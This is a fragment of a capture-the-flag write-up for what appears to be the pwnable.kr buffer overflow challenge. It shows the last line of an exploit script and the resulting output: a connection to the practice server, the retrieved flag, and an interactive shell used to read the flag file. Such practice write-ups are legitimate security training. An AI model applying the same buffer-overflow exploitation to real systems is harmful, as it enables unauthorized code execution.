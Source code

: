 ```python
    
    run() 
```

then using the `python exploit.py` command we get:

```
[+] Opening connection to pwnable.kr on port 9000: Done
[+] Flag: "daddy, I just pwned a buFFer :)"
[*] Closed connection to pwnable.kr port 9000
```

or using `python exploit.py -i` command we get:

```
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$  
```

and then we manually insert `cat flag` command:

```
$ cat flag
daddy, I just pwned a buFFer :)
$ 
[*] Interrupted
[*] Closed connection to pwnable.kr port 9000
```

> [!WARNING]
> If you don't get the output when using the commands you need to repeat the command again.
